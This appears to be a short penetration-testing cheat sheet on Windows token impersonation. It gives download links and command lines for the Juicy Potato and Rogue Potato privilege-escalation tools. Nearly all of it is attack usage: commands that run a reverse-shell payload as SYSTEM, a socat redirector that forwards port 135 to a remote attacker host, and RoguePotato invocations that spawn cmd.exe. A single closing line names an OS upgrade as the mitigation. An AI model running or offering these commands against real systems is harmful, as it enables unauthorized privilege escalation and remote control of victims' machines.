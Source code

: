 # Token Impersonation 


## Juicy potato

### First download .exe
[juicy potato](https://github.com/ohpe/juicy-potato)

### Second get clsid
[CLISID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

### execute 


```
jp.exe -t * -p agent.exe -l 9001
.\jp.exe -t * -p file.bat -l 9001 -c "CLSID" 9001
-p # reverse shell we got in with or a script to run 
-c # clsid
-l # wanted port
```
## Rouge Potato

**Must have SEimpersonate priv**

[Rouge Potato](https://github.com/antonioCoco/RoguePotato)

```
Examples:
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
        
```

### Mitigation

**Upgrade to Win10 >=1809,
Windows Server 2019!**